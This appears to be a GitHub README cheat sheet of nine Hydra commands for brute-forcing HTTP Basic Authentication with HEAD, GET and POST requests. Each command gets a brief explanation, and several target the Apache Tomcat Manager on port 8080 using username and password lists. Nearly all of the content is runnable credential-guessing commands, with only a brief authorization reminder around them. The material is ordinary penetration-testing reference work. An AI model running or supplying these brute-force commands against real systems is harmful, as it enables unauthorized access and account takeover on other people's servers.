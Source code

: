 # 💥 **Hydra HTTP Basic Authentication Brute Force**

This document outlines several **Hydra** commands used for brute-forcing HTTP Basic Authentication through different methods like `HEAD`, `GET`, and `POST`. These examples perform brute-force attacks to guess username-password combinations.

⚠️ **Important:** Ensure that you have explicit permission to run these commands against the target system.

---

### 1️⃣ **Basic HTTP Authentication (HEAD Method)**  
This command performs a brute-force attack on HTTP Basic Authentication by sending `HEAD` requests to the `/test` endpoint at `192.168.1.40`. It uses usernames from `/opt/user.txt` and passwords from `/opt/password.txt`.

```bash
hydra -L /opt/user.txt -P /opt/password.txt 192.168.1.40 http-head "/test"
```

---

### 2️⃣ **HTTP Authentication on Port 8080 with Stop on First Success**  
This is similar to the previous command but targets port `8080` using `-s 8080`. The `-f` flag ensures that Hydra stops after finding the first valid username-password pair.

```bash
hydra -L /opt/user.txt -P /opt/password.txt -s 8080 -f 192.168.1.40 http-head "/test"
```

---

### 3️⃣ **HTTP GET Method on Port 8080**  
This command performs a brute force attack using the HTTP `GET` method. It sends requests to the `/test` endpoint on port `8080`, attempting authentication with credentials from `/opt/user.txt` and `/opt/password.txt`.

```bash
hydra -L /opt/user.txt -P /opt/password.txt -s 8080 -f 192.168.1.40 http-get "/test"
```

---

### 4️⃣ **HTTP GET Request in URL Format**  
A variant of the previous command, formatted in URL style. It uses the HTTP `GET` method to attempt brute-forcing authentication at the `/test` endpoint of `192.168.1.40`.

```bash
hydra -L /opt/user.txt -P /opt/password.txt http-get://192.168.1.40/test
```

---

### 5️⃣ **HTTP POST Method**  
This command sends `POST` requests to the `/test` endpoint, suitable for forms or services requiring `POST` for authentication. It attempts brute-forcing credentials from `/opt/user.txt` and `/opt/password.txt`.

```bash
hydra -L /opt/user.txt -P /opt/password.txt http-post://192.168.1.40/test
```

---

### 6️⃣ **Apache Tomcat Brute Force (HTTP GET)**  
This command performs brute-forcing against the Apache Tomcat Manager on port `8080` using HTTP `GET` requests. It uses the usernames from `apache_tomcat_users.txt` and passwords from `apache_tomcat_passwords.txt`.

```bash
hydra -L apache_tomcat_users.txt -P apache_tomcat_passwords.txt -s 8080 -f 192.168.1.203 http-get /manager
```

---

### 7️⃣ **Apache Tomcat Brute Force (HTTP HEAD Method)**  
This command uses the `HEAD` method to attempt brute-forcing the Apache Tomcat Manager located at `192.168.1.203` on port `8080`.

```bash
hydra -L apache_tomcat_users.txt -P apache_tomcat_passwords.txt http-head://192.168.1.203:8080/manager
```

---

### 8️⃣ **Apache Tomcat Brute Force (HEAD on /manager)**  
This command sends `HEAD` requests to the `/manager` path on Apache Tomcat Manager at `192.168.1.203` on port `8080`. It attempts brute-forcing authentication on this specific path.

```bash
hydra -L apache_tomcat_users.txt -P apache_tomcat_passwords.txt -s 8080 192.168.1.203 http-head "/manager"
```

---

### 9️⃣ **Single Username (tomcat) and Password List**  
This command uses a fixed username (`tomcat`) and brute-forces the password list `apache_tomcat_passwords.txt` against the `/manager/html` path on the Apache Tomcat Manager at `192.168.1.203` on port `8080`.

```bash
hydra -l tomcat -P apache_tomcat_passwords.txt -s 8080 192.168.1.203 http-head "/manager/html"
```

---

### 📌 **Notes:**

- `-L`: **Path to the list of usernames**  
- `-P`: **Path to the list of passwords**  
- `-s`: **Specifies the port**  
- `-f`: **Stops Hydra after the first valid pair is found**  
- ⚠️ **Always use responsibly and with authorization**  
